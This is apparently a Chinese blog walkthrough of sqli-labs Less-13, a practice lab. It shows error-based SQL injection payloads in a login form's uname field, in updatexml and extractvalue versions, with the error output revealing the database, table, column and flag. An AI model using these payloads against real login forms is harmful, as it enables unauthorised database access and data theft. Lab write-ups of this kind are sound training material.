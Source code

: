 # 原创
：  less-13 in sqli-labs

# less-13 in sqli-labs

**Less-13 报错注入【 ') 】**

1、注入点判断：`uname=admin\&amp;passwd=Dumb`

```
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'Dumb') LIMIT 0,1' at line 1

```

**updataxml版本**<br/> 2、进行报错注入得到数据库名：`uname=admin') and updatexml(1,concat(0x7e,(select database()),0x7e),1)#&amp;passwd=Dumb`

```
XPATH syntax error: '~security~'


```

3、进行报错注入得到表名：`uname=admin') and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 1,1),0x7e),1)#&amp;passwd=Dumb`

```
XPATH syntax error: '~hermesflag~'

```

4、进行报错注入得到列名：`uname=admin') and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_name='hermesflag' limit 1,1),0x7e),1)#&amp;passwd=Dumb`

```
XPATH syntax error: '~flag~'

```

5、进行报错注入得到数据：`uname=admin') and updatexml(1,concat(0x7e,(select concat(id,0x7e,flag) from hermesflag),0x7e),1)#&amp;passwd=Dumb`

```
XPATH syntax error: '~1~flag{327a6c4304ad5938eaf0efb6'

```

**extractvalue版本**<br/> 2、进行报错注入得到数据库名：`uname=admin') and extractvalue(1,concat(0x7e,(select database()),0x7e))#&amp;passwd=Dumb`

```
XPATH syntax error: '~security~'

```

3、进行报错注入得到表名：`uname=admin') and extractvalue(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 1,1),0x7e))#&amp;passwd=Dumb`

```
XPATH syntax error: '~hermesflag~'

```

4、进行报错注入得到列名：`uname=admin') and extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where table_name='hermesflag' limit 1,1),0x7e))#&amp;passwd=Dumb`

```
XPATH syntax error: '~flag~'

```

5、进行报错注入得到数据：`uname=admin') and extractvalue(1,concat(0x7e,(select concat(id,0x7e,flag) from hermesflag limit 0,1),0x7e))#&amp;passwd=Dumb`

```
XPATH syntax error: '~1~flag{327a6c4304ad5938eaf0efb6'

```
